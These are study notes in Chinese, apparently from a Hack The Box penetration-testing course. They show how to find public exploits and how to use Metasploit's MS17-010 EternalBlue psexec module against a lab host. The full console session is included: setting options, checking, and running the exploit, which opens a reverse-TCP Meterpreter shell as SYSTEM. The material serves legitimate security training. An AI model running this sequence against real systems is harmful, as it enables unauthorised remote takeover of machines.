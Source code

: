 ## Public Exploits 公開漏洞
### Finding Public Exploits  尋找公共漏洞
1. 在 Google 上搜尋應用程式名稱加上「exploit」這個關鍵字，看看是否能找到任何漏洞相關的資訊。
2. 使用工具 searchsploit 使用它來搜尋任何應用程式的公共漏洞/漏洞。

## Metasploit Primer(Metasploit 入門)
Metasploit Framework（MSF）是一款非常優秀的滲透測試工具。它內建了大量針對已公開漏洞的利用程式，並提供簡便的方式讓使用者可以針對易受攻擊的目標進行利用。除了漏洞利用功能外，MSF 還具備許多其他功能，例如：
- 執行偵察腳本以列舉遠端主機與已受感染的目標
- 使用驗證腳本測試漏洞是否存在，而無需實際入侵目標系統
- 可連線至 shell 並在受感染目標上執行命令
- 提供大量後滲透利用（Post-Exploitation）與橫向移動（Pivoting）工具

```
Coconut820@htb[/htb]$ msfconsole
```

一旦我們運行 Metasploit ，我們就可以使用 search exploit 命令搜尋我們的目標應用程式。例如，我們可以搜尋先前發現的 SMB 漏洞：
```
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```

發現了該服務的一個漏洞。我們可以透過複製它的全名並使用 USE 來使用它：
```
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

在運行漏洞利用程式之前，我們需要配置其選項。若要查看可供設定的選項，我們可以使用 show options/options 指令:
```
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

任何 Required 設定為 yes 選項都需要進行設置，漏洞才能生效。在這種情況下，我們只有兩個選項需要設定： RHOSTS ，表示目標主機的 IP（這可以是一個 IP、多個 IP 或包含 IP 清單的檔案）。第二個選項 LHOST 代表攻擊主機的 IP（這可以是單一 IP，也可以是網路介面的名稱。在下面的範例中， LHOST 被設定為與我們的 tun0 介面關聯的 IP。）我們可以使用 set 指令設定它們：

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

在執行利用腳本之前，我們可以先進行檢查，以確認伺服器是否存在漏洞。
```
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

> [!Note]
> 伺服器確實存在漏洞。請注意，並非 Metasploit Framework 中的每一個漏洞模組都支援 check 功能。最後，我們可以使用 run 或 exploit 指令來執行漏洞利用。

```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

我們已經能夠獲得該框的管理員存取權限，並使用 shell 命令將我們帶入互動式 shell